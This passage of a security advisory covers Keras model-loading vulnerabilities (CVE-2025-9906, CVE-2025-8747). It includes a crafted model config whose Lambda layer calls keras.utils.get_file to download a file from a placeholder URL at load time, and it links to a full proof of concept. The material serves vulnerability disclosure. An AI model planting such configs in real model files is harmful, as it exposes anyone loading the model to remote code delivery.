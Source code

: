 ```python
load_model("/tmp/provola/model.keras", safe_mode=False)
```

**Bonus Step: Downloading a model from the Internet**

```json
{
  "module": "keras.layers",
  "class_name": "Lambda",
  "config": {
    "name": "download_file",
    "function": {
      "module": "keras.utils",
      "class_name": "function",
      "config": "get_file",
      "registered_name": "function"
    },
    "arguments": {
      "origin": "https://some-url.com/file",
      "cache_subdir": "/tmp/provola"
    }
  },
  "build_config": {
    "input_shape": [null, 10]
  },
  "name": "download_file",
  "inbound_nodes": [
    {
      "args": [],
      "kwargs": {
        "inputs": "model.keras"
      }
    }
  ]
}
```

Here, `keras.utils.get_file` downloads a file from the internet. The final call is:

```python
get_file("model.keras", origin="https://some-url.com/file", cache_dir="/tmp/provola")
```

The `cache_subdir` specifies the download directory, and `origin` is the URL. `inputs` here represents the `fname` (filename) of the file to be downloaded.

This bonus step has been associated with CVE-2025-8747 and is further detailed in [this blog post](https://jfrog.com/blog/keras-safe_mode-bypass-vulnerability/) by Andrey Polkovnichenko, JFrog Security Researcher.


### Proof of Concept (PoC)
The complete PoC is available on GitHub at [io-no/CVE-2025-9906 CVE-2025-8747](https://github.com/io-no/CVE-Reports/tree/main/CVE-2025-9906%20CVE-2025-8747).
